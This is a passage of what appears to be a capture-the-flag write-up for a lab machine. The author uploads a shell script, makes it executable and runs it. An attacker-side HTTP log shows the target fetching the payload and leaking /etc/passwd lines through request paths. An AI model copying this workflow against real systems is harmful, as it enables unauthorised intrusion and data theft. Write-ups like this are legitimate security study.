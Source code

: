 I verified that the file was there and accessible.

![](../../.gitbook/assets/5-burp-shell2.png)

chmod +x to make executable, 

![](../../.gitbook/assets/5-burp-shell3.png)

and executing my shell script

```text
10.10.10.209 - - [07/Feb/2021 21:47:19] "GET /exim:x:31:31:Exim HTTP/1.1" 404 -                         
10.10.10.209 - - [12/Feb/2021 19:16:30] "GET / HTTP/1.1" 200 -                                          
10.10.10.209 - - [12/Feb/2021 19:17:53] "GET / HTTP/1.1" 200 -
10.10.10.209 - - [12/Feb/2021 19:18:37] code 404, message File not found
10.10.10.209 - - [12/Feb/2021 19:18:37] "GET //usr/bin/curl HTTP/1.1" 404 -
10.10.10.209 - - [12/Feb/2021 19:19:00] "GET / HTTP/1.1" 200 -
10.10.10.209 - - [12/Feb/2021 19:23:11] "GET / HTTP/1.1" 200 -
10.10.10.209 - - [12/Feb/2021 19:23:43] "GET /shell HTTP/1.1" 200 -
10.10.10.209 - - [12/Feb/2021 19:23:44] "GET / HTTP/1.1" 200 -
```
